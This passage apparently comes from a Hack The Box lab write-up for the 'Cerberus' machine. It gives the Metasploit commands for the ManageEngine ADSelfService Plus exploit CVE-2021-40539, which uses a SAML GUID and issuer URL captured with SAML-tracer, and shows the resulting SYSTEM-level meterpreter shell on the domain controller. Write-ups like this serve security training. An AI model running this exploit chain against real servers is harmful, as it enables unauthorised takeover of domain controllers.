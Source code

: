 - `use exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539`
- `options`

```
GUID        yes       The SAML endpoint GUID
ISSUER_URL  yes       The Issuer URL used by the Identity Provider which has been configured as the SAML authentication provider for the target server
```

So we need the GUID and ISSUER_URL, to run this exploit.

## **SAML-tracer**

[SAML-tracer – Holen Sie sich diese Erweiterung für 🦊 Firefox (de)](https://addons.mozilla.org/de/firefox/addon/saml-tracer/)

> A tool for viewing SAML and WS-Federation messages sent through the browser during single sign-on and single logout.
> 

We can use this tool to see the data after the login. 

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Cerberus/post_output.png)

Now set the metasploit options:

```
set GUID 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
set ISSUER_URL http://dc.cerberus.local/adfs/services/trust
set RHOSTS 172.16.22.1
set LHOST tun0
set VHOST dc.cerberus.local
```

- `exploit`

meterpreter > `sysinfo`

```
Computer        : DC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : CERBERUS
Logged On Users : 10
Meterpreter     : x86/windows
```

meterpreter > `getuid`

Server username: NT AUTHORITY\SYSTEM

→ root.txt
